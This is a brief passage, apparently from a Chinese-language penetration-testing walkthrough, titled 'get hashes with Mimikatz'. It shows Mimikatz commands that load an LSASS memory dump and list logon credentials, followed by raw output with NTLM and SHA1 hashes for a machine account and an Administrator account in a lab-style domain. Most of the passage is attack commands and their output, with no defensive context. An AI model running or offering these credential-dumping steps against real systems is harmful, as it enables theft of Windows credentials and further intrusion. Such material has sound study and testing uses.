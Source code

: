 ## Mimikatz 获取hash

```
mimikatz # sekurlsa::minidump lsass.dump
Switch to MINIDUMP : 'lsass.dump'

mimikatz # sekurlsa::logonPasswords full 
Opening : 'lsass.dump' file for minidump...

Authentication Id : 0 ; 1346354 (00000000:00148b32)
Session           : Service from 0
User Name         : DefaultAppPool
Domain            : IIS APPPOOL
Logon Server      : (null)
Logon Time        : 8/26/2021 8:44:04 PM
SID               : S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415
   msv :
    [00000003] Primary
    * Username : WEB01$
    * Domain   : EVIL
    * NTLM     : 77627f5c17e9cea651a455bb4a155356
    * SHA1     : f1743a733dbf065bd9e6c9a278383ac6ccdaba97
   tspkg :
   wdigest :
    * Username : WEB01$
    * Domain   : EVIL
    * Password : (null)
   kerberos :
    * Username : WEB01$
    * Domain   : EVIL.COM
    * Password : (null)
   ssp :
   credman :

Authentication Id : 0 ; 455367 (00000000:0006f2c7)
Session           : Interactive from 0
User Name         : Administrator
Domain            : WEB01
Logon Server      : WEB01
Logon Time        : 8/26/2021 8:39:37 PM
SID               : S-1-5-21-1607807028-3881622887-1966001951-500
   msv :
    [00000003] Primary
    * Username : Administrator
    * Domain   : WEB01
    * NTLM     : 87cc5fd863cb29f2d1fec46733f46274
    * SHA1     : af783494dc34399abf270527f45c62b89ab206bd
   tspkg :
   wdigest :
    * Username : Administrator
    * Domain   : WEB01
    * Password : (null)
   kerberos :
    * Username : Administrator
    * Domain   : WEB01
    * Password : (null)
   ssp :
   credman :

Authentication Id : 0 ; 329027 (00000000:00050543)
Session           : Interactive from 0
User Name         : Administrator
Domain            : WEB01
```